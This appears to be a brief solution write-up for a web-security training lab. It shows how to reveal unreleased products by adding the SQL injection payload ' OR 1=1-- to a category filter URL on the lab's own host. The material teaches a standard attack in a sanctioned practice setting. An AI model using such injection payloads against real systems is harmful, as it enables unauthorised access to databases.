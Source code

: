 # Lab's description
This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:

`SELECT * FROM products WHERE category = 'Gifts' AND released = 1`

**End goal:** Display one or more unreleased products.

# Solution
Firstly, you go to home page and choose any category.

**Link** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle`

We will see there are only 3 items; then we modify the link by adding `' OR 1=1--`

**Link:** `https://0a89005304a405808199a7b6004700ae.web-security-academy.net/filter?category=Lifestyle%27+OR+1=1--`

After modifying, we can see there are more items added.
